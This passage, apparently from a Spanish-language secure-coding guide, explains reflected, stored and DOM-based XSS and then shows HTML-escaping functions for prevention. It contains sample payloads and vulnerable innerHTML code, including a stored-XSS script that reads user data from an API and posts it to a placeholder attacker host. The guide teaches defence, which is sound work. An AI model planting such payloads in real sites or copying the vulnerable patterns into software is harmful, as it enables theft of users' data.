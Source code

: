 ```javascript
// URL maliciosa
https://sitio.com/buscar?q=<script>alert('XSS')</script>

// Código vulnerable
const query = new URLSearchParams(window.location.search).get('q');
document.getElementById('resultado').innerHTML = `Búsqueda: ${query}`;
```

### **2. XSS Almacenado (Stored XSS)**

El código malicioso se guarda en la base de datos y se ejecuta cada vez que se carga.

```javascript
// Comentario malicioso guardado en BD
const comentario =
  '<script>fetch("/api/usuarios").then(r=>r.json()).then(d=>fetch("http://malicioso.com",{method:"POST",body:JSON.stringify(d)}))</script>';

// Código vulnerable al mostrar
document.getElementById('comentarios').innerHTML = comentario;
```

### **3. XSS Basado en DOM**

El código malicioso se ejecuta modificando el DOM del lado del cliente.

```javascript
// Código vulnerable
const hash = window.location.hash.substring(1);
document.getElementById('contenido').innerHTML = hash;

// URL maliciosa
https://sitio.com/#<script>alert('XSS')</script>
```

---

## 🛡️ Técnicas de Prevención

### **1. Escape de Caracteres HTML**

```javascript
// Función para escapar caracteres HTML
const escaparHTML = texto => {
  const div = document.createElement('div');
  div.textContent = texto;
  return div.innerHTML;
};

// Alternativa más completa
const escaparHTML = texto => {
  const mapa = {
    '&': '&amp;',
    '<': '&lt;',
    '>': '&gt;',
    '"': '&quot;',
    "'": '&#x27;',
    '/': '&#x2F;',
  };

  return String(texto).replace(/[&<>"'\/]/g, caracter => mapa[caracter]);
};

// Uso seguro
const comentarioSeguro = escaparHTML(comentarioUsuario);
```